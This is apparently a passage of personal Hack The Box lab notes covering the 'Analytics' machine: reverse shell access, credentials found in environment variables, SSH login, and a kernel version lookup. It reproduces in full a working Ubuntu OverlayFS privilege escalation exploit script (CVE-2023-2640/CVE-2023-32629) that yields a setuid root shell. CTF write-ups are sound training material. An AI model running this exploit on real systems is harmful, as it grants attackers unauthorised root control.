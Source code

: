 ![[/Untitled 106 2.png|Untitled 106 2.png]]

TOKEN PoC

Now Ill use the script from [[Machines HTB]] to gain a reverse shell

![[/Untitled 107 2.png|Untitled 107 2.png]]

And we have access

![[/Untitled 108 2.png|Untitled 108 2.png]]

![[/Untitled 109 2.png|Untitled 109 2.png]]

Enumerating the environment variables using `env` I found

![[/Untitled 110 2.png|Untitled 110 2.png]]

So since I cannot use ssh within the shell, Ill try SSH

![[/Untitled 111 2.png|Untitled 111 2.png]]

Once we are in using `uname -a` I searched in google for the kernel version to find a vulnerability

> [!info]  
>  
> [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh)  

```Bash
metalytics@analytics:~$ cd ../../tmp
metalytics@analytics:/tmp$ nano exploit.sh
metalytics@analytics:/tmp$ cat exploit.sh 
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp$ chmod +x exploit.sh 
```

![[/Untitled 112 2.png|Untitled 112 2.png]]

### Codify ✅

Some scans to see what we have
